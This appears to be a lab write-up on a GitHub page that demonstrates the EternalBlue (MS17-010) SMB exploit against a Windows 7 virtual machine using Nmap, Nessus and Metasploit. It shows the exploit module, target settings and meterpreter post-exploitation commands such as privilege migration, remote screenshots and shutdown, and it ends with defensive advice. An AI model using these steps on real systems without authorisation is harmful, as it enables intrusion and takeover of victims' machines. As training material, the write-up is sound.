 # MS17-010 | EternalBlue Vulnerability Demonstration

---

**Disclaimer** 

**This activity is intended for Ethical hacking and education purposes only. Unauthorised access or testing is illegal and unethical. Always follow laws and regulations.**

---

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

---

## Steps-by-steps Process
### Setup Oracle virtual box

  ![oracle_virtual_box.PNG](Screenshot/oracle_virtual_box.PNG)


### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 ![Ping Command](Screenshot/Ping_test.PNG)
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

![start_nessusd](Screenshot/start_nessusd.PNG)


![Normal_Scan](Screenshot/Normal_Scan.PNG)
 

### Vulnerability report

 ![Vulnerability_Report](Screenshot/Vulnerability_Report.PNG)

### Nmap 

nmap 192.168.0.141
 
 ![nmap.PNG](Screenshot/nmap.PNG)

---

## Exploitation

### Commands:

**Msfconsole**

  ![msfconsole](Screenshot/msfconsole.PNG)

**search ms1_010**

  ![search_ms17_010](Screenshot/search_ms17_010.PNG)
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 ![use](Screenshot/use.PNG)
 
**option command**
 
 ![Option_command](Screenshot/Option_command.PNG)

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 ![meterpreter](Screenshot/meterpreter.PNG)

---
 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 ![Get_system_information](Screenshot/Get_system_information.PNG)

 ---

### System Information

 ![system_information.PNG](Screenshot/system_information.PNG)

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

 ![privileged_access](Screenshot/privileged_access.PNG) 


### Screenshot command
 
 ![Screenshot_Command](Screenshot/Screenshot_Command.PNG)

 
### Going into Desktop
 
 ![windows_Remote_Desktop.](Screenshot/windows_Remote_Desktop.PNG)

 
### Creating folder
 
 ![creating_folder_remotely](Screenshot/creating_folder_remotely.PNG)

 
 ![Successfull_creation_of_folder](Screenshot/Successfull_creation_of_folder.PNG)
 

### Shutdown command
 
![Before_Shutdown](Screenshot/before_shutdown_command.PNG)


![After_Shutdownd](Screenshot/After_shutdown_command.PNG)


### END

---

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**

---






